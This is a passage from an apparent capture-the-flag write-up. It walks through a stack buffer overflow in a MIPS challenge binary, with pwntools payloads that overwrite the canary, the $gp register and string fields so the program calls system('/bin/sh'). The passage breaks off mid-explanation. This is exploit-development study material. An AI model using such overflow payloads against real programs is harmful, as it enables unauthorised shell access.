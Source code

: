 Our strategy is to make `command` equal to `system_str`, and `arg1` equal to `"/bin/sh"`. So that the program calls `system("/bin/sh")`.

## Exploit

We can exploit the buffer overflow vulnerability in `develper_power_management_portal`. A payload like the one below can be used.

```py
p.recvuntil(b"Username: ")
p.sendline(b"devolper")
p.recvuntil(b"devolper\n")

payload = (
    b"A" * 0x2c  # fill till stack canary
    + p32(0x400B0C)  # write the stack canary (upto $buffer+0x30)
    + b"B" * (0x128 - 0x30)  # fill till command
    + b"system\x00"  # write the command (upto $buffer+0x12f)
    + b"C" * (0x220 - 0x12f)  # fill till system_str
    + b"system\x00"  # write the system_str (upto $buffer+0x227)
    + b"D"  # fill till arg1
    + b"/bin/sh\x00"  # write arg1 (upto $buffer+0x230)
)
p.sendline(payload)
p.interactive()
```

We update send this to the program using our `pwntools` script. But, it segfaults.
Upon debugging, we find that it is because `$gp` gets overwritten to `0x42424242` because of the instruction at `0x400b0c` in `main`.

```asm
        00400b0c 8f dc 00 18     lw         gp,0x18(s8)
```

We need to ensure, that `s8+0x18 = sp+0x48+0x18 = $buffer+0x48` is equal to `0x4aa330`.
We update the payload accordingly.

```py
payload = (
    b"A" * 0x2c  # fill till stack canary
    + p32(0x400B0C)  # write the stack canary (upto $buffer+0x30)
    + b"B" * (0x48 - 0x30)  # fill till $gp
    + p32(0x4AA330)  # write $gp (upto $buffer+0x4c)
    + b"C" * (0x128 - 0x4c)  # fill till command
    + b"system\x00"  # write the command (upto $buffer+0x12f)
    + b"D" * (0x220 - 0x12f)  # fill till system_str
    + b"system\x00"  # write the system_str (upto $buffer+0x227)
    + b"E"  # fill till arg1
    + b"/bin/sh\x00"  # write arg1 (upto $buffer+0x230)
)
```

But we run into one more issue.
